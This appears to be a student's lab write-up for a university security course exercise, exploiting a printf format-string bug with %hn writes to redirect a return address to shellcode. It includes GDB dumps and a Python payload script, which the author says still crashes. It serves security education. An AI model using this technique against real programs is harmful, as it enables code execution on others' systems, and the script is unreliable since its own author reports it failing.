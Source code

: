 # 06 - Antares Writeup

## Main Idea

The code is vulnerable because of the printf function. We can define arguments to write what we want to memory.
Before that, we need to know the steps of printf. You can see the detail in [task-description](https://sp24.cs161.org/proj1/q6/)

```plaintext
...
[  ][  ][  ][  ] <-- arg2
[  ][  ][  ][  ] <-- arg1
[  ][  ][  ][  ] <-- arg0 (&buf)
[  ][  ][  ][  ] <-- RIP of printf
[  ][  ][  ][  ] <-- SFP of printf
...
```

## Exploit Structure

First, we will place the argument we need to buffer, which is significant to what we want to write in memory.
Second, we need printf 12 characters (address of buf - address of argument1) to move the argument to the buffer.
Third, we need to modify the "byte" we have printf to overwrite the address of shellcode into RIP of calibrate by %hn and %u.

## Exploit GDB Output

before attack

```C++
(gdb) x/64x 0xffffd5b0
0xffffd5b0:     0x00000002      0x00000000      0xffffd658      0x0804928f
0xffffd5c0:     0xffffd5d0      0x08048034      0x00000020      0x00000008      
0xffffd5d0:     0x41414141      0xffffd5bc      0x41414141      0xffffd5be      
0xffffd5e0:     0x63256325      0x63256325      0x63256325      0x63256325      
0xffffd5f0:     0x63256325      0x63256325      0x32353525      0x25753637      
0xffffd600:     0x31256e68      0x33343230      0x6e682575      0x0000000a      
0xffffd610:     0x00000000      0x00000001      0x00000000      0xffffd7cb      
0xffffd620:     0x00000002      0x00000000      0x00000000      0x00000000      
0xffffd630:     0x00000000      0xffffdfe0      0xf7ffc540      0xf7ffc000      
0xffffd640:     0x00000000      0x00000000      0x00000000      0x00000000      
0xffffd650:     0x00000000      0xffffd670      0xffffd6f0      0x08049466      
0xffffd660:     0x00000002      0x0804926c      0x0804ffe8      0x08049466      
0xffffd670:     0x00000002      0xffffd6e4      0xffffd6f0      0x0804e04e      
0xffffd680:     0x00000000      0x00000000      0x08049444      0x0804ffe8      
0xffffd690:     0x00000000      0x00000000      0x00000000      0x08049097      
0xffffd6a0:     0x0804926c      0x00000002      0xffffd6e4      0x08049000 
```

after attack

```  C++
Program received signal SIGSEGV, Segmentation fault.
0x0804ad5f in printf_core (f=f@entry=0x80500c0 <__stdout_FILE>, fmt=fmt@entry=0xffffd5d0 "AAAA\274\325\377\377AAAA\276\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%55276u%hn%10243u%hn\n", ap=ap@entry=0xffffd45c, nl_arg=<optimized out>, nl_type=<optimized out>) at src/stdio/vfprintf.c:548
548     src/stdio/vfprintf.c: No such file or directory.
```

Pathetically, I do not know where the problem is.
Below is my python code.

``` python
payload = ''
payload += "A" * 4   #(consumed by %__u)
payload += '\xbc\xd5\xff\xff'    #  lower half word address of RIP that we want to overwrite
payload += 'A' * 4   #(consumed by %__u)
payload += '\xbe\xd5\xff\xff'    #  higher half word address of RIP that we want to overwrite

payload += "%c" * 12  # move the pointer of printf to buffer

cur =  12 
FIRST_HALF = 65535   # The two most significant bytes of RIP
SECOND_HALF = 55288  # The two least significant bytes of RIP

payload += '%' + str(SECOND_HALF - cur) + 'u'
payload += '%hn'

payload += '%' + str(FIRST_HALF - SECOND_HALF) + 'u'
payload += '%hn'
payload += '\0'
print(payload + '\n')
```
